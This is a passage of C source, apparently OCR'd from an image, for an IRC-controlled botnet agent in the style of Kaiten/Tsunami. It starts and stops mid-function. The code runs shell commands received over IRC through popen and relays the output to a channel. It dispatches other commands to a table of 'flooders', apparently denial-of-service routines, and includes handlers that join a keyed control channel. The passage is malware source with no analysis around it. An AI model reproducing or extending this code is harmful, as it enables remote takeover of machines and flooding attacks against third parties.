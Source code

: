             FILE *command;
            if (mfork(sender) != 0) return;
            memset(buf, 0, 1024);
            sprintf(buf, "export PATH=/bin:/sbin:/usr/bin:/usr/local/bin:/usr/sbin;%s", message + 3);
            command = popen(buf, "r");
            while (!feof(command)) {
                memset(buf, 0, 1024);
                fgets(buf, 1024, command);
                send_msg(sock, "PRIVMSG %s :%s\n", chan, buf);
                sleep(1);
            }
            pclose(command);
            exit(0);
        }
        m = strlen(message);
        for (i = 0; i < m; i++) {
            if (*message == ' ' || *message == 0) break;
            name[i] = *message;
            message++;
        }
        for (i = 0; i < strlen(message); i++) if (message[i] == ' ') num_params++;
        num_params++;
        if (num_params > 10) num_params = 10;
        params[0] = name;
        params[num_params + 1] = "\0";
        m = 1;
        while (*message != 0) {
            message++;
            if (m >= num_params) break;
            for (i = 0; i < strlen(message) && message[i] != ' '; i++);
            params[m] = (char*) malloc(i + 1);
            strncpy(params[m], message, i);
            params[m][i] = 0;
            m++;
            message += i;
        }
        for (m = 0; flooders[m].cmd != (char *) 0; m++) {
            if (!strcasecmp(flooders[m].cmd, name)) {
                flooders[m].func(sock, sender, num_params - 1, params);
                for (i = 1; i < num_params; i++) free(params[i]);
                return;
            }
        }
    }
}

void _376(int sock, char *sender, char *str) {
    send_msg(sock, "MODE %s -ix\n", nick);
    send_msg(sock, "JOIN %s :%s\n", chan, key);
    send_msg(sock, "WHO %s\n", nick);
}

void _PING(int sock, char *sender, char *str) {
    send_msg(sock, "PONG %s\n", str);
}

void _352(int sock, char *sender, char *str) {
    int i, d;
    char *msg = str;
    struct hostent *hostm;
    unsigned long m;
    for (i = 0, d = 0; d < 5; d++) {
        for (; i < strlen(str) && *msg != ' '; msg++, i++);
        msg++;
        if (i == strlen(str)) return;